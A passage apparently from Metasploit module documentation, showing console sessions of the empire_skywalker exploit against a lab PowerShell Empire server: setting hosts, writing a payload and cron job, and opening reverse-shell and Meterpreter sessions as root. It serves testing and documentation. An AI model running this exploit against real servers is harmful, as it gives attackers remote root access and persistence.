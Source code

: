 ```
[!] Tried to delete /var/lib/powershell-empire/empire/server/downloads/JJR8EMKK/agent.log, unknown result
[*] Command shell session 4 opened (192.168.56.1:4444 -> 192.168.56.6:46040) at 2024-07-20 14:44:09 +0900

whoami
root
```

### ProjectEmpire/Empire (03ca7bdbcc81457da8e8c1419b36adf66fe9b110) installed with Docker on Kali Linux 6.6.15 (target 0, port 8080)
```
msf exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/empire_skywalker) > set CVE Original 
CVE => Original
msf exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/PSDaqPOJ
[*] Writing cron job to /etc/cron.d/KQlwBZQk
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (24772 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/KQlwBZQk
[+] Deleted /tmp/PSDaqPOJ
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:38552) at 2024-07-24 18:01:04 +0900
[!] This exploit may require manual cleanup of '/agent.log' on the target

meterpreter > sysinfo
Computer        : kali
OS              : Linux 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### ProjectEmpire/Empire (03ca7bdbcc81457da8e8c1419b36adf66fe9b110) installed with Docker on Kali Linux 6.6.15 (target 1, port 8080)
```
msf > use exploit/linux/http/empire_skywalker
[*] Using configured payload linux/x86/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/empire_skywalker) > set CVE Original
CVE => Original
msf exploit(linux/http/empire_skywalker) > set target 1
target => 1
msf exploit(linux/http/empire_skywalker) > set payload linux/x86/shell/reverse_tcp
```